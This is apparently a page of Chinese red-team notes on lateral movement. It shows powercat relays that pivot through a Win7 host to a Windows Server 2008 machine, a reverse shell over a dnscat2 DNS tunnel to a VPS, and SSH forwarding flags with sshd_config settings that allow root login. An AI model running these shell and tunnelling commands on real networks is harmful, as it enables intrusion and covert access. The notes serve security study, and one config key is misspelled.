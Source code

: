 将powercat作为跳板
```bash
# 情景：vps可访问win7,但不能访问win server08 win7可访问win server08
# 以win7为跳板，来实现vps对win server08的访问

### F1
#1.在win server08执行
powercat -l -v -p 9999 -e cmd.exe
#2.在win7(跳板)执行
powercat -l -v -p 8000 -r tcp:10.10.10.129:9999
#3.vps上，连接win7
nc 192.168.56.130 8000 -vv  # 连接成功


### F2. 使用DNS协议
#1. win7上
powercat -l -p 8000 -r dns:192.168.56.129::ttpowercat.test     # 指定vps的地址
#2. vps上执行，启动dnscat
ruby dnscat2.rb ttpowercat.test -e open --no-cache
#3. win server08(目标机器)
powercat -c 10.10.10.128 -p 8000 -v -e cmd.exe
# 就可以看到反弹shell了



powercat更多用法
​```bash
# https://github.com/besimorhino/powercat
```



## <font color=red> 应用层隧道技术</font>
>使用较多

#### 1.SSH隧道
参数
```bash
-C    # 压缩传输(提高传输速度)
-f    # 后台执行
-N    # 静默连接(建立了链接，但是看不到具体会话)
-g    # 允许远程主机链接本地用于转发的端口
-L    # 本地端口转发
-R    # 远程端口转发
-D    # 动态转发(SOCKS代理)
-P    # 指定SSH端口
```

SSH配置文件
```bash
# vim /etc/ssh/sshd_config

AllowTcpForwarding yes    # 允许转发TCP协议
GatewayPorts   yes    # 是否允许逻辑主机本地转发端口
PermitRootLogin yes    #允许root登录
PasseordAuthentication   yes    # 允许使用基于密码的认证
TCPKeepAlive yes # 阻止ssh断开

# 然后重启ssh服务
```
